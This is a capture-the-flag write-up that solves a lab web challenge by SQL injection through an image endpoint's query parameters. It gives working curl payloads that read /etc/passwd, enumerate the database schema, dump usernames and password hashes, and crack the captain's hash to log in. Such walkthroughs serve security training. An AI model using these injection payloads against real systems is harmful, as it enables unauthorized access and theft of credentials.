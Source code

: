 # Navigation plan (3 points)

Ahoy, officer,

the chief officer was invited to a naval espresso by the captain and now they are both unfit for duty. The second
officer is very busy and he has asked you to find out where are we heading according to the navigation plan.

May you have fair winds and following seas!

The navigation plan webpage is available at http://navigation-plan.cns-jv.tcc.

## Hints

* Use VPN to get access to the webpage.
* Details should contain the desired information.

## Solution

If we open the navigation plan webpage we notice that it loads images using URLs
like `/image.png?type=data&t=targets&id=1`

Let's check what happens if we change the value of the first (`type`) param

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=xxx&t=targets&id=1"
<br />
<b>Fatal error</b>:  Uncaught mysqli_sql_exception: Unknown column 'xxx' in 'field list' in /var/www/html/image.php:9
Stack trace:
#0 /var/www/html/image.php(9): mysqli_query(Object(mysqli), 'SELECT xxx FROM...')
#1 {main}
  thrown in <b>/var/www/html/image.php</b> on line <b>9</b><br />
```

We immediately see that the `image.php` script is running unsanitized SQL and will be prone to SQL injection. We also
see the beginning of the query.

Let's explore further

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=.&t=yyy&id=999"
<br />
<b>Fatal error</b>:  Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'FROM yyy JOIN files ON targets.id = files.id_target WHERE targets.id = 999' at line 1 in /var/www/html/image.php:9
Stack trace:
#0 /var/www/html/image.php(9): mysqli_query(Object(mysqli), 'SELECT . FROM y...')
#1 {main}
  thrown in <b>/var/www/html/image.php</b> on line <b>9</b><br />
```

Based on the responses above we can see that the server is
executing `SELECT {type} FROM {t} JOIN files ON targets.id = files.id_target WHERE targets.id = {id}`

Let's assume that the DB contains BLOBS (which the PHP code just treats as binary input) and let's try to retrieve e.g.
`/etc/passwd`

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=LOAD_FILE('/etc/passwd')--&t=targets&id=999"
<br />
<b>Deprecated</b>:  base64_decode(): Passing null to parameter #1 ($string) of type string is deprecated in <b>/var/www/html/image.php</b> on line <b>12</b><br />
```

It seems it's even simpler. The DB contains base64-encoded values which the code then converts to binary. Let's confirm

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64('Hello')--&t=targets&id=999"
Hello
```

That's great. Now we just need to retrieve some info about DB structure. The problem is that the query just returns one
field, so we need to concatenate all the information to one string.

The plan is to
execute `SELECT TO_BASE64(GROUP_CONCAT(table_name SEPARATOR ' ')) FROM information_schema.tables GROUP BY 'all'`.

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64%28GROUP_CONCAT%28table_name%20SEPARATOR%20%27%20%27%29%29&t=information_schema.tables%20GROUP%20BY%20%27all%27--&id=1"
ALL_PLUGINS APPLICABLE_ROLES CHARACTER_SETS CHECK_CONSTRAINTS COLLATIONS COLLATION_CHARACTER_SET_APPLICABILITY COLUMNS COLUMN_PRIVILEGES ENABLED_ROLES ENGINES EVENTS FILES GLOBAL_STATUS GLOBAL_VARIABLES KEYWORDS KEY_CACHES KEY_COLUMN_USAGE OPTIMIZER_COSTS OPTIMIZER_TRACE PARAMETERS PARTITIONS PLUGINS PROCESSLIST PROFILING REFERENTIAL_CONSTRAINTS ROUTINES SCHEMATA SCHEMA_PRIVILEGES SESSION_STATUS SESSION_VARIABLES STATISTICS SQL_FUNCTIONS SYSTEM_VARIABLES TABLES TABLESPACES TABLE_CONSTRAINTS TABLE_PRIVILEGES TRIGGERS USER_PRIVILEGES VIEWS CLIENT_STATISTICS INDEX_STATISTICS INNODB_FT_CONFIG GEOMETRY_COLUMNS INNODB_SYS_TABLESTATS SPATIAL_REF_SYS USER_STATISTICS INNODB_TRX INNODB_CMP_PER_INDEX INNODB_METRICS INNODB_FT_DELETED INNODB_CMP THREAD_POOL_WAITS INNODB_CMP_RESET THREAD_POOL_QUEUES TABLE_STATISTICS INNODB_SYS_FIELDS INNODB_BUFFER_PAGE_LRU INNODB_LOCKS INNODB_FT_INDEX_TABLE INNODB_CMPMEM THREAD_POOL_GROUPS INNODB_CMP_PER_INDEX_RESET INNODB_SYS_FOREIGN_COLS INNODB_FT_INDEX_CACHE INNODB_BUFFER_POOL_STATS INNODB_FT_BEING_DELETED INNODB_SYS_FOREIGN INNODB_CMPMEM_RESET INNODB_FT_DEFAULT_STOPWORD INNODB_SYS_TABLES INNODB_SYS_COLUMNS INNODB_SYS_TABLESPACES INNODB_SYS_INDEXES INNODB_BUFFER_PAGE INNODB_SYS_VIRTUAL user_variables INNODB_TABLESPACES_ENCRYPTION INNODB_LOCK_WAITS THREAD_POOL_STATS files targets users
```

It seems there is `users` table that looks interesting so let's explore its structure.
`SELECT GROUP_CONCAT(column SEPARATOR ' ')) FROM information_schema.columns WHERE TABLE_NAME='users' GROUP BY 'all'`

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64%28GROUP_CONCAT%28column_name%20SEPARATOR%20%27%20%27%29%29&t=information_schema.columns%20where%20table_name%3D%27users%27%20GROUP%20BY%20%27all%27--&id=1"
id username password rank active
```

Now we just need to select all the data using

```sql
SELECT TO_BASE64(CONCAT(GROUP_CONCAT(username SEPARATOR ' '), '|', GROUP_CONCAT(password SEPARATOR ' '), '|', GROUP_CONCAT(rank SEPARATOR ' ')))
users WHERE active = 1 GROUP BY 'all'--
```

```console
$ curl "http://navigation-plan.cns-jv.tcc/image.png?type=TO_BASE64%28CONCAT%28GROUP_CONCAT%28username%20SEPARATOR%20%27%20%27%29%2C%20%27%7C%27%2C%20GROUP_CONCAT%28password%20SEPARATOR%20%27%20%27%29%2C%20%27%7C%27%2C%20GROUP_CONCAT%28rank%20SEPARATOR%20%27%20%27%29%29%29&t=users%20WHERE%20active%20%3D%201%20GROUP%20BY%20%27all%27--&id=999"
captain officer|7de22a47a2123a21ef0e6db685da3f3b471f01a0b719ef5774d22fed684b2537 6a4aed6869c8216e463054dcf7e320530b5dc5e05feae6d6d22a4311e3b22ceb|0 1
```

We're almost there. However, it seems we just have the password hash. Let's try checking if this hash is not already
cracked, e.g. using [CrackStation].

![Cracked hash of captain's password](crack-captains-password.png)

Now it's enough to log in to the navigation webpage as the captain and retrieve the flag which is hidden in target #4
details.

![Revealed flag](flag.png)

[CrackStation]: https://crackstation.net/
